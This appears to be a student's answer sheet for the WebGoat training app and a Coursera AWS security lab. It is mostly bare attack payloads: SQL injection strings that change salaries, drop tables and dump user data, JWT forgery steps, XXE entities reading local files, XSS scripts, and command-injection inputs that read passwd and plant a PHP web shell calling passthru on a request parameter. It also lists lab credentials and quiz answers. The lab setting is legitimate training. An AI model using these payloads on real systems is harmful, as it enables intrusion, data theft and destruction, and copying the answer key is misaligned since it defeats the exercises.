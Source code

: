A1-INTRO

2)select department from employees where first_name=’Bob';
3)update employees set department=’Sales’ where first_name=’Tobi’;
4)alter table employees add phone varchar(20) ;
5) grant all on grant_rights to unauthorized_user;
9)Smith’ or ‘1’=’1
10) Login count: 0
User_Is: 0 or 1=1
11) Employee name: A
Authentication Tan: ‘ or ‘1’ =  ‘1
12)Employee name : A
Authentication Tan: ‘; Update employees set salary=99999 where first_name=’John
13) %’; Drop Table access_log;--

A1-ADVANCED:

3)Name:     ‘; select * from user_system_data;-- 
Password: 
5)username: tom
password: thisisasecretfortomonly
6)4,3,2,3,4

A1- MITIGATION:

5) 
1 st box: getConnection
2: PreparedStatement
3: prepareStatement
4: ? 
5:?
6: setString
7: setString

6) try {  
     Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);  
     PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE name = ?");  
     ps.setString(1, "Admin");  
     ps.executeUpdate();  
} catch (Exception e) {  
     System.out.println("Oops. Something went wrong!");  
}
9) a’;/**/select/**/*/**/from/**/user_system_data;--

10) a';/**/seselectlect/**/*/**/frfromom/**/user_system_data;--

12)104.130.219.202





A2:

Authentication Bypass:

submit-owasp-post- instead of 0,1 put 2,3 in secquestion

JWT:

3) user
5) change user to tom and click delete
owasp- copy the first token and paste in encode, decode hash then copy the decode and paste change it to “None”
the copy the encode and paste it in manual editor

then copy the second token and paste it in encode/decode copy the decode change false to true and paste and then copy the encode and paste it in manual editor
put semicolon and send

7) 1,3
10) open in new browser , jwt.io, eposh convertor and clike the here link in question
copy the token in the here link and paste it in jwt.io, then go to epoach convertor and copy the token and paste it in jwt token 
then copy the code upto violet color and go to webgoat and click checkout and go to owasp
in that instaed of Bearer null , delete the null and paste it

11)
in tom click delete then owasp-copy the tocken

paste the token in jwt.io 
go to webgoat in show hints search the hacked' UNION select 'deletingTom' from INFORMATION_SCHEMA.SYSTEM_USERS – and paste it in jwt instead of kid and chage the hacked to abc and change the deleting tom to xyz 
then go to encode/decode hash paste xyz and copy the encode and paste it in jwt.token instead of xyz

copy the code and paste it manual editor

PASSWORD RESET

2) CLICK FORGET PASSWORDand go to webwolf and check the pwd
4)admin,green
5)  what is your favorite color

SECURE PASSWORD:
give password sanka2@123#




A3:

Username: CaptainJack
Password: BlackPearl

A4:

4) <?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment>  <text>&xxe;</text></comment>
7) <?xml version="1.0"?><!DOCTYPE comment [<!ENTITY xxe SYSTEM "file:///">]><comment>  <text>&xxe;</text></comment>
 and above in application/json  instad of json type xml

A5:

2)  username:tom pass:cat
3)role,userid
4)WebGoat/IDOR/profile/2342384

2) Users, Config

A7:

2) 
Go to Downloads-> more tools-> web developer fools console will open
In console type, alert(document.cookie) ;
It will show alert msg click ok then again type 
Alert(document.cookie) ;
 Then in the 2 nd exercise type YES and click Submit
7) 
In that shopping cart
In enter your credit card : remove that number
Type <script>alert(“username”) </script>
Example <script>alert(“sankamethra”) </script>
10) 
Type, start.mvc#test/ and click submit
11) 
In console, type
Webgoat.custom js.phoneHome() 
We can see the response code like -236547
Copy and paster and click submit
12) 
Quiz
1) Solution 4
2) Solution 3
3) Solution 1
4) Solution 2
5) Solution 4


AWS

---> create instance with 
 CS5910 coursera 'a' AMI im community AMI

---> edit http https with my id
---> select 1a subnet
---> open the public address

COMMANDS 

sudo yum update
mkdir proj
cd proj

wget http://ciast.uccs.edu/coursera/pub/csr591.tbz

tar jxf csr591.tbz

sudo cp -r www /var/
cd /var/www/html
sudo chown -R apache:apache midterm gsc stduentproj
sudo chmod -R 755 midterm gsc student proj

execute http://ip//midterm.php

sudo chmod 755 /var/www/data/*.txt
sudo chmod 755 /var/www/data/*.csv

execute http://ip//upload.php
execute http://ip//keyaccess.html

---> in key access html 
enter the command in login field

csnet&ls&
csnet&cat passwd&
--> go to login and add jupchurc

now go to keyaccess.html

csnet&ls -al ../html&

csnet&ls -l&

csnet&ls -al&

csnet&cat vulpy.txt&


csnet& echo'<?php passthru($_GET[cmd]); ?>' > ../html/midterm/sh6.php &
